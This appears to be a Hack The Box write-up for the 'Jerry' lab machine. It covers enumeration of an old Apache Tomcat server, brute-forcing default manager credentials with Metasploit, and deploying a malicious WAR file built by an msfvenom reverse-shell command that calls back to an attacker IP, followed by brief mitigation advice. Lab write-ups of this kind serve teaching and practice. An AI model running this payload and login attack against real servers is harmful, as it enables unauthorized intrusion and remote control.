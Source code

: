 # Jerry



## Contents

- [**Box**](#Box)
- [**Profile**](#Profile)
- [**Enumeration**](#Enumeration)
- [**Exploitation**](#Exploitation)
- [**Mitigation**](#Mitigation)



## Box

![](img/box_info.png) 



## Profile

[![Akinflo](http://www.hackthebox.eu/badge/image/419539)](https://www.hackthebox.eu/home/users/profile/419539)



## Enumeration

First, nmap scanning:

![](img/nmap.png) 



Apache Tomcat is used here with an old version 7.0.88 (latest version: 9.0.41). When i go to the webpage on port 8080, the default Tomcat page appear. I try to click on the manager page but authentication is required:

![](img/authenctication.png) 

So, i started **metasploit** to enumerate default credentials of tomcat manager authentication with the following module: `auxiliary/scanner/http/tomcat_mgr_login`

And i got valid combination:

![](img/default_credential_found.png) 

I used this credentials and it works, i connected:

![](img/authenticated.png) 



After a few searches, i found an interesting exploit from **rapid7**:

****![](img/rapid7_exploit_description.png) 



We can deploy `war` file which allow code execution. 



## Exploitation

### Using msfvenom

Here, i manually generate a payload in a war file using msfvenom: `msfvenom -p java/meterpreter/reverse_tcp LHOST=10.10.14.31 LPORT=4242 -f war > reverse.war`

![](img/msfvenom_war.png) 

I launched **metasploit** to start to listen and get the meterpreter using `exploit/multi/handler` module (don't forget to set the right payload, here `java/meterpreter/reverse_tcp`).

I uploaded my war file on the manager page:

![](img/war_file_deployed.png)   

I clicked on the deployed file and i got my meterpreter:

![](img/manually_exploit.png) 



### Using metasploit module

On the **rapid7** page, i used the **metasploit** module: `exploit/multi/http/tomcat_mgr_upload`

![](img/rapid7_module.png) 



I set up all options (username, password, rhost etc.) and i runned it, and i got the meterpreter:

![](img/exploit.png)  



I tried to go in Administrator directory and i had access, so i got easily the flags:

![](img/flags.png) 



## Mitigation

To avoid theses vulnerabilities, it is recommended to:

- Change all default **Username/Password** credentials
- Create strong authentication credentials
- Upgrade to the latest version of tomcat